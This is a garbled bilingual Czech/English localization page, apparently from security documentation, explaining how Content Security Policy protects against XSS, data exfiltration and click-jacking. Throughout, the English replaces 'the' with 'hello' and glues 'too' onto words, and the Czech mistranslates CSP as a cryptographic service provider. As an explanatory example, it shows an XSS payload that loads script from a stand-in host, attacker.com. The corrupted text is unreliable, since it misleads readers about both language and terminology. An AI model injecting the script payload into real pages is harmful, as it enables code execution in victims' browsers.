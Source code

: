 | <span data-ttu-id="618a6-153">**Kroky**</span><span class="sxs-lookup"><span data-stu-id="618a6-153">**Steps**</span></span> | <p><span data-ttu-id="618a6-154">Obsahu zásady zabezpečení (CSP) je obrany do hloubky zabezpečení mechanismus, W3C standardní, který umožňuje řízení toohave vlastníci webové aplikace na hello obsah vložený do své lokality.</span><span class="sxs-lookup"><span data-stu-id="618a6-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="618a6-155">Zprostředkovatel kryptografických služeb je přidána jako hlavičku HTTP odpovědi na webovém serveru hello a na straně klienta hello vynucováno prohlížeče.</span><span class="sxs-lookup"><span data-stu-id="618a6-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="618a6-156">Je zásadu na základě seznamu povolených IP adres – web můžou deklarovat sadu důvěryhodných domén ze které aktivní obsah, jako je JavaScript je možné načíst.</span><span class="sxs-lookup"><span data-stu-id="618a6-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="618a6-157">Zprostředkovatel kryptografických služeb poskytuje následující výhody zabezpečení hello:</span><span class="sxs-lookup"><span data-stu-id="618a6-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="618a6-158">**Ochrana proti XSS:** Pokud na stránce je snadno napadnutelný tooXSS, útočník ho může zneužít 2 způsoby:</span><span class="sxs-lookup"><span data-stu-id="618a6-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="618a6-159">Vložit `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="618a6-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="618a6-160">Tato zneužití nebude fungovat kvůli tooCSP na základní omezení-1</span><span class="sxs-lookup"><span data-stu-id="618a6-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="618a6-161">Vložit `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="618a6-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="618a6-162">Tato zneužití nebude fungovat, protože hello útočník řídí domény nebude v seznamu povolených IP adres zprostředkovatele kryptografických služeb je domén</span><span class="sxs-lookup"><span data-stu-id="618a6-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="618a6-163">**Kontrolu nad data exfiltration:** Pokud žádný škodlivý obsah na webové stránce pokusí tooconnect tooan externí web a získá data, hello připojení bude přerušeno CSP.</span><span class="sxs-lookup"><span data-stu-id="618a6-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="618a6-164">Důvodem je, že hello cílové domény nebude v seznamu povolených IP adres na CSP</span><span class="sxs-lookup"><span data-stu-id="618a6-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="618a6-165">**Obrana proti opěry pro klikněte na tlačítko:** opěry pro klikněte na tlačítko se útoku technika pomocí, který nežádoucí osoba můžete rámce originální webu a vynutit tooclick uživatele na prvky uživatelského rozhraní.</span><span class="sxs-lookup"><span data-stu-id="618a6-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="618a6-166">Aktuálně obrana proti opěry pro klikněte na tlačítko dosáhnete pomocí konfigurace odpovědi hlavičku X-Frame-Options.</span><span class="sxs-lookup"><span data-stu-id="618a6-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="618a6-167">Některé prohlížeče respektují tuto hlavičku a budete dopředného CSP bude standardním způsobem toodefend proti opěry pro klikněte na</span><span class="sxs-lookup"><span data-stu-id="618a6-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="618a6-168">**Vytváření sestav v reálném čase útoku:** při vkládání útok na webu povoleno CSP prohlížeče automaticky aktivuje koncový bod oznámení tooan nakonfigurován na webovém serveru hello.</span><span class="sxs-lookup"><span data-stu-id="618a6-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="618a6-169">Tímto způsobem CSP slouží jako upozornění systému v reálném čase.</span><span class="sxs-lookup"><span data-stu-id="618a6-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="618a6-170">Příklad</span><span class="sxs-lookup"><span data-stu-id="618a6-170">Example</span></span>
<span data-ttu-id="618a6-171">Příklad zásady:</span><span class="sxs-lookup"><span data-stu-id="618a6-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```
